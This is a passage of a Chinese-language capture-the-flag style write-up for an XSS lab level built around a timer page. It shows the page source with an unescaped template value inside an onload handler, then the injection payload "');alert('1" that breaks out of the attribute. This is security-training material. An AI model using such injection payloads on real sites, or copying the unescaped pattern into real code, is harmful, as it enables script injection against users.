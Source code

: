 Timer.html

```html
<!doctype html>
<html>
  <head>
    <!-- Internal game scripts/styles, mostly boring stuff -->
    <script src="/static/game-frame.js"></script>
    <link rel="stylesheet" href="/static/game-frame-styles.css" />
 
    <script>
      function startTimer(seconds) {
        seconds = parseInt(seconds) || 3;
        setTimeout(function() { 
          window.confirm("Time is up!");
          window.history.back();
        }, seconds * 1000);
      }
    </script>
  </head>
  <body id="level4">
    <img src="/static/logos/level4.png" />
    <br>
    <img src="/static/loading.gif" onload="startTimer('{{ timer }}');" />
    <br>
    <div id="message">Your timer will execute in {{ timer }} seconds.</div>
  </body>
</html>
```

关键代码

```html
<img src="/static/loading.gif" onload="startTimer('{{ timer }}');" />
```

默认3秒`seconds = parseInt(seconds) || 3;`

输入100，看到加载如下

`<img src="/static/loading.gif" onload="startTimer('100');">`

于是想办法闭合，用单引号闭合`startTimer`，然后写弹窗再和后面的`')`闭合

> onload 事件会在页面或图像加载完成后立即发生

Payload:

```
');alert('1
```

即变为`<img src="/static/loading.gif" onload="startTimer('');alert('1');">`

![level4-1](xss/image-20210424152557697.png)

